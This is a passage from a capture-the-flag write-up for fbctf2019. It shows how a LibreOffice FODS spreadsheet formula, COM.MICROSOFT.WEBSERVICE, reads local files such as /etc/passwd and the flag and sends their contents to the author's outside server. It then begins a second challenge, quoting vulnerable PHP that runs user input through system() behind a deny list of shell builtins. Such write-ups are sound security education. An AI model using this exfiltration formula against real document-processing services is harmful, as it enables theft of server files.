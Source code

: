But I didn't solve it when I participated in the DCTF, so this challenge still took me a lot of time.

First, we should find a valid `fods` file. And I use [this](https://github.com/BuffaloWill/oxml_xxe/blob/master/samples/sample.fods) from oxml_xxe repo.

(fods file is OpenDocument Flat XML spreadsheet format.)

We can try to use some libreoffice macro/function to read file or exfiltrate data.

There is a function `WEBSERVICE` that we can use it to read local file or send http request.

`=COM.MICROSOFT.WEBSERVICE(&quot;http://kaibro.tw/x&quot;)` => send http request to my server

`=COM.MICROSOFT.WEBSERVICE(&quot;/etc/passwd&quot;)` => read the local file `/etc/passwd`

Combine!

`=COM.MICROSOFT.WEBSERVICE(&quot;http://kaibro.tw/x&quot;&amp;COM.MICROSOFT.WEBSERVICE(&quot;/etc/passwd&quot;))`

Then it will read the `/etc/passwd` file and send the content to our server like this:

![](https://i.imgur.com/NXCbuuF.png)

So we have an arbitrary file read vulnerability now.

But the flag is not in the root directory, we should find the path of the flag first.

After fuzzing, I found there is a weird user `libreoffice_admin` from `/etc/passwd`.

So when I tried to read `/home/libreoffice_admin/flag`, it send the real flag to my server!

`[01/Jun/2019:22:05:06 +0000] "OPTIONS /xfb%7Bwh0_7h0u6h7_l1br30ff1c3_c4n_b3_u53ful%7D%0A HTTP/1.1" 200 193 "-" "LibreOffice"`

flag: `fb{wh0_7h0u6h7_l1br30ff1c3_c4n_b3_u53ful}`

payload: [flag.fods](https://github.com/w181496/CTF/blob/master/fbctf2019/pdfme/flag.fods)


### rceservice

This challenge is very short:

```php
<?php

putenv('PATH=/home/rceservice/jail');

if (isset($_REQUEST['cmd'])) {
  $json = $_REQUEST['cmd'];

  if (!is_string($json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } elseif (preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|compgen|complete|continue|declare|dirs|disown|echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|shopt|source|suspend|test|times|trap|type|typeset|ulimit|umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } else {
    echo 'Attempting to run command:<br/>';
    $cmd = json_decode($json, true)['cmd'];
    if ($cmd !== NULL) {
      system($cmd);
    } else {
      echo 'Invalid input';
    }
    echo '<br/><br/>';
  }
}
```
